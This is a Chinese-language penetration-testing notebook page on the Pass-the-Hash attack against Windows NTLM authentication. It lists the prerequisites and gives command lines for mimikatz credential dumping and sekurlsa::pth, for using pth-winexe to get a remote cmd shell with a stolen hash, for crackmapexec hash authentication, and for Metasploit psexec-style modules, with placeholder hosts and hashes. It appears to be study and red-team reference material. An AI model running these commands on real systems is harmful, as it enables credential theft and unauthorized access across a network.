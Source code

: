 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的且使用NTLM协议的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 需要找到目标用户账户的NTLM哈希
* 目标域名
* 目标系统必须支持SMB / WMI / RPC 等远程认证协议

## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 权限提升
privilege::debug
# 获取详细的用户凭证信息
sekurlsa::logonpasswords full
# 列出当前用户的凭据
lsadump::lsa /patch
# 获取DC上的所有域用户的NTLM哈希
sekurlsa::msv
# 执行，以允许在目标域中以administrator的身份使用NTLM哈希来进行身份验证
sekurlsa::pth /user:Administrator /domain:target.com /ntlm:123CDVEE.....NDFE6654GDS
# 使用例如pth-winexe之类的的工具执行自定义的程序（如cmd.exe可获得一个目标上的shell）
```

### pth-winexe

* 当找到了目标账户的NTLM哈希之后，可以将其当成密码来使用，绕过输入明文密码来进行身份验证，从而获取到shell：

```bash
# pth-winexe -U [域名/用户名]%[hash] //[目标IP] cmd.exe
pth-winexe -U Administrator%00000000000000000000000000000000:123CDVEE.....NDFE6654GDS //192.168.xxx.xxx cmd
```

### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

```bash
# 使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD
# 在域环境中使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD -d target.com
# 列出活动会话
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --sessions
# 利用NTLM哈希来获取TGT票据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --kerberos
# 利用NTLM哈希直接使用mimikatz提取凭据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --mimikatz
# 仅以smb模块举例，还有其他模块
```



### Metasploit

```bash
# psexec模块
use exploit/windows/smb/psexec
# wmiexec模块
use auxiliary/admin/smb/wmiexec
# smb_login模块
use auxiliary/scanner/smb/smb_login
# smbexec模块
use exploit/windows/smb/smbexec
```

{% hint style="info" %}
哈希传递攻击分为针对本地用户账户和域用户账户，通过抓取目标用户的NTLM哈希来绕过明文密码登录，其本质就是冒充特定的用户账户。
{% endhint %}
